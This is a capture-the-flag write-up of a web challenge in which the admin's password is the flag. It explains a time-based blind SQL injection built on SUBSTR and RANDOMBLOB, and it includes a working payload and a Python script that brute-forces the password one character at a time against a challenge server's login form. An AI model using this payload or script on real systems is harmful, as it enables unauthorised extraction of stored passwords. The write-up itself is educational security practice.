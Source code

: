 let's look at the source code

wow! theres sql! this is sql injection!

i hope none of yall managed to figure out how to bypass the filter (string concat ahem ahem)

but anyways notice how the flag is literally the password of the admin 

...but you cannot log in under any circumstances?? there arent even any error messages????

well turns out we can still find the flag, using an sql time attack

the idea is 

1) check 1 character of the password
2) if we correctly guess that character, make the program spend a long time thinking
3) if we see that the program spent a long time thinking, we know that the character we guessed is correct
4) repeat for all characters in the flag

the challenge states that the flag only consists of curly braces, underscores, lowercase alphabets, and numbers, so our alphabet looks like this

```
abcdefghijklmnopqrstuvwxyz1234567890{}
```

but how will we craft our payload?

we can utilize 2 functions in sql: ```SUBSTR()``` and ```RANDOMBLOB()```

```SUBSTR()``` take in 3 parameters: variable, position, length

in python terms its ```variable[position:position+length]```

```RANDOMBLOB()``` generates pseudo-random bytes of some length, and will be quite slow if the length is huge

so, let's craft our payload

```sql
' OR (substr(password,1,1)='a' AND randomblob(1000000000)) --
```

this checks if the first character of the variable password is 'a', and if it is, randomblob is called and the website takes a longer time to return

for the whole brute-forcing script:

```py
import requests
import time

chars = "abcdefghijklmnopqrstuvwxyz}{_13457"
flag = ""
for i in range(9,1000):
    clist = []
    for c in chars:
        start = time.time()
        requests.post("http://159.223.73.72:3957/", data={"username": "admin", "password": f"' OR (substr(password,{i+1},1)='{c}' AND randomblob(1000000000)) --"})
        clist.append((time.time()-start, c)) # duration, character
    clist.sort(reverse=True)
    flag+=clist[0][1] # character that took the longest for a request to complete
    print(flag)
print(flag)

```

this will keep running until we reach '}', where we can stop running the code

each request takes about 0.3 seconds to run, depending on your connection, and if the guess is correct, the request will take around 4 seconds to complete

in total, this code should not take more than 5 minutes to get the flag

flag: deadbeef{r34l_t1m3}
